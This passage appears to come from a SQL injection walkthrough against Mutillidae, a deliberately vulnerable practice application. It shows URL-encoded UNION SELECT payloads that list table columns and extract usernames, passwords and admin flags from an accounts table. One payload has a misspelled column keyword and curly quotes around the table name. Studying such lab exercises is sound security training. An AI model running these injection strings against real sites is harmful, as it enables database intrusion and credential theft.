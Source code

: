 http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%201,colunm_name,null,null,5%20from%20information_schema.columns%20where%20table_name%20=%20%E2%80%98accounts%E2%80%99%23&password=sk710-info-php-submit-button=View+Account+Details

![](o19.png)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.7/mutillidae/index.php?page=user-info.php&username=senthil%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=sk710-info-php-submit-button=View+Account+Details

![](o20.png)
